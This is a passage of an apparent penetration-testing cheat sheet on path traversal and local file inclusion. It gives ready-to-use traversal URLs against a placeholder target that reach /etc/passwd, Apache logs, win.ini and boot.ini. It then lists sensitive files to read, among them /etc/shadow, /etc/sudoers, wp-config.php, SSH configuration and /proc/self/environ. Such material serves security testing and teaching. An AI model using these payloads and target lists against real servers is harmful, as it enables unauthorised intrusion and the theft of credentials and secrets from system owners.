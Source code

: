 ### 3. Path Traversal Examples

```bash
# Linux examples
http://target.com/index.php?file=../../../../../../../etc/passwd
http://target.com/index.php?page=../../../../var/log/apache2/access.log
http://target.com/index.php?lang=../../../../../../proc/version

# Windows examples  
http://target.com/index.php?file=../../../../../../../windows/system32/drivers/etc/hosts
http://target.com/index.php?page=../../../../boot.ini
http://target.com/index.php?lang=../../../../../../windows/win.ini
```

---

## Common Readable Files

### Linux System Files

**Essential System Files:**
```bash
# User information
/etc/passwd                    # User accounts
/etc/shadow                    # Password hashes (if readable)
/etc/group                     # User groups
/etc/sudoers                   # Sudo configuration

# System information
/etc/os-release               # OS version
/proc/version                 # Kernel version
/proc/cpuinfo                 # CPU information
/proc/meminfo                 # Memory information
/etc/hostname                 # System hostname
/etc/hosts                    # Host file
/etc/networks                 # Network configuration

# Service configurations
/etc/ssh/sshd_config         # SSH configuration
/etc/apache2/apache2.conf    # Apache configuration
/etc/nginx/nginx.conf        # Nginx configuration
/etc/mysql/my.cnf            # MySQL configuration
/etc/php/*/apache2/php.ini   # PHP configuration
```

**Application Files:**
```bash
# Web application files
/var/www/html/index.php      # Web root files
/var/www/html/config.php     # Configuration files
/var/www/html/.htaccess      # Apache rules
/var/www/html/wp-config.php  # WordPress config

# Application logs
/var/log/apache2/access.log  # Apache access logs
/var/log/apache2/error.log   # Apache error logs
/var/log/nginx/access.log    # Nginx access logs
/var/log/nginx/error.log     # Nginx error logs
/var/log/auth.log           # Authentication logs
/var/log/syslog             # System logs

# Environment and process information
/proc/self/environ          # Current process environment
/proc/self/cmdline          # Current process command line
/proc/self/fd/0             # Standard input
```